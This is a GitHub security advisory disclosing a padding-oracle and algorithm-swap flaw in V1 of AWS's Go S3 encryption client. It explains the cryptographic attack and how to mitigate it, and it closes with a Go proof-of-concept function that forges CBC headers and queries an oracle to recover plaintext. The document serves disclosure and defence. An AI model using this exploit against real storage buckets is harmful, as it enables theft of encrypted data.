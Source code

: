 ```yaml
---
title: ' AWS: In-band key negotiation issue in the AWS S3 Crypto SDK for golang'
published: '2020-08-10T20:22:32Z'
severity: Low
ghsa_id: GHSA-7f33-f4f5-xwgw
cve_id: CVE-2020-8912
weaknesses: []
products:
- ecosystem: ''
  package_name: AWS S3 crypto SDK (aws-sdk-go/service/s3/s3crypto)
  affected_versions: V1
  patched_versions: V2
cvss: null
credits:
- github_user_id: sophieschmieg
  name: Sophie Schmieg
  avatar: https://avatars.githubusercontent.com/u/53278002?s=40&v=4
---
```


### Summary

The golang AWS S3 Crypto SDK is impacted by an issue that can result in loss of confidentiality and message forgery. The attack requires write access to the bucket in question, and that the attacker has access to an endpoint that reveals decryption failures (without revealing the plaintext) and that when encrypting the GCM option was chosen as content cipher.

### Risk/Severity

The vulnerability pose insider risks/privilege escalation risks, circumventing KMS controls for stored data.

### Impact

This advisory describes the plaintext revealing vulnerabilities in the golang AWS S3 Crypto SDK, with a similar issue in the non "strict" versions of C++ and Java S3 Crypto SDKs being present as well.

V1 of the S3 crypto SDK does not authenticate the algorithm parameters for the data encryption key.

An attacker with write access to the bucket can use this in order to change the encryption algorithm of an object in the bucket, which can lead to problems depending on the supported algorithms. For example, a switch from AES-GCM to AES-CTR in combination with a decryption oracle can reveal the authentication key used by AES-GCM as decrypting the GMAC tag leaves the authentication key recoverable as an algebraic equation.

By default, the only available algorithms in the SDK are AES-GCM and AES-CBC. Switching the algorithm from AES-GCM to AES-CBC can be used as way to reconstruct the plaintext through an oracle endpoint revealing decryption failures, by brute forcing 16 byte chunks of the plaintext. Note that the plaintext needs to have some known structure for this to work, as a uniform random 16 byte string would be the same as a 128 bit encryption key, which is considered cryptographically safe.

The attack works by taking a 16 byte AES-GCM encrypted block guessing 16 bytes of plaintext, constructing forgery that pretends to be PKCS5 padded AES-CBC, using the ciphertext and the plaintext guess and that will decrypt to a valid message if the guess was correct.

To understand this attack, we have to take a closer look at both AES-GCM and AES-CBC:
AES-GCM encrypts using a variant of CTR mode, i.e. `C_i = AES-Enc(CB_i) ^ M_i`. AES-CBC on the other hand *decrypts* via `M_i = AES-Dec(C_i) ^ C_{i-1}`, where `C_{-1} = IV`. The padding oracle can tell us if, after switching to CBC mode, the plaintext recovered is padded with a valid PKCS5 padding.

Since `AES-Dec(C_i ^ M_i) = CB_i`, if we set `IV' = CB_i ^ 0x10*[16]`, where `0x10*[16]` is the byte `0x10` repeated 16 times, and `C_0' = C_i ^ M_i'` the resulting one block message `(IV', C_0')` will have valid PKCS5 padding if our guess `M_i'` for `M_i` was correct, since the decrypted message consists of 16 bytes of value `0x10`, the PKCS5 padded empty string.

Note however, that an incorrect guess might also result in a valid padding, if the AES decryption result randomly happens to end in `0x01`, `0x0202`, or a longer valid padding. In order to ensure that the guess was indeed correct, a second check using `IV'' = IV' ^ (0x00*[15] || 0x11)` with the same ciphertext block has to be performed. This will decrypt to 15 bytes of value `0x10` and one byte of value `0x01` if our initial guess was correct, producing a valid padding. On an incorrect guess, this second ciphertext forgery will have an invalid padding with a probability of 1:2^128, as one can easily see.

This issue is fixed in V2 of the API, by using the `KMS+context` key wrapping scheme for new files, authenticating the algorithm. Old files encrypted with the `KMS` key wrapping scheme remain vulnerable until they are reencrypted with the new scheme.

### Mitigation

Using the version 2 of the S3 crypto SDK will not produce vulnerable files anymore. Old files remain vulnerable to this problem if they were originally encrypted with GCM mode and use the `KMS` key wrapping option.

### Proof of concept

A [Proof of concept](https://github.com/sophieschmieg/exploits/tree/master/aws_s3_crypto_poc) is available in a separate github repository.

This particular issue is described in [combined_oracle_exploit.go](https://github.com/sophieschmieg/exploits/blob/master/aws_s3_crypto_poc/exploit/combined_oracle_exploit.go):

```golang
func CombinedOracleExploit(bucket string, key string, input *OnlineAttackInput) (string, error) {
	data, header, err := input.S3Mock.GetObjectDirect(bucket, key)
	if alg := header.Get("X-Amz-Meta-X-Amz-Cek-Alg"); alg != "AES/GCM/NoPadding" {
		return "", fmt.Errorf("Algorithm is %q, not GCM!", alg)
	}
	gcmIv, err := base64.StdEncoding.DecodeString(header.Get("X-Amz-Meta-X-Amz-Iv"))
	if len(gcmIv) != 12 {
		return "", fmt.Errorf("GCM IV is %d bytes, not 12", len(gcmIv))
	}
	fullIv := make([]byte, 16)
	confirmIv := make([]byte, 16)
	for i := 0; i < 12; i++ {
		fullIv[i] = gcmIv[i] ^ 0x10
		confirmIv[i] = gcmIv[i] ^ 0x10
	}
        // Set i to the block we want to attempt to decrypt
	counter := i + 2
	for j := 15; j >= 12; j-- {
		v := byte(counter % 256)
		fullIv[j] = 0x10 ^ v
		confirmIv[j] = 0x10 ^ v
		counter /= 256
	}
	confirmIv[15] ^= 0x11
	fullIvEnc := base64.StdEncoding.EncodeToString(fullIv)
	confirmIvEnc := base64.StdEncoding.EncodeToString(confirmIv)
	success := false
        // Set plaintextGuess to the guess for the plaintext of this block
	newData := []byte(plaintextGuess)
	for j := 0; j < 16; j++ {
		newData[j] ^= data[16*i+j]
	}
	newHeader := header.Clone()
	newHeader.Set("X-Amz-Meta-X-Amz-Cek-Alg", "AES/CBC/PKCS5Padding")
	newHeader.Set("X-Amz-Meta-X-Amz-Iv", fullIvEnc)
	newHeader.Set("X-Amz-Meta-X-Amz-Unencrypted-Content-Length", "16")
	input.S3Mock.PutObjectDirect(bucket, key+"guess", newData, newHeader)
	if input.Oracle(bucket, key+"guess") {
		newHeader.Set("X-Amz-Meta-X-Amz-Iv", confirmIvEnc)
		input.S3Mock.PutObjectDirect(bucket, key+"guess", newData, newHeader)
		if input.Oracle(bucket, key+"guess") {
			return plaintextGuess, nil
		}
	}
	return "", fmt.Errorf("Block %d could not be decrypted", i)
}
```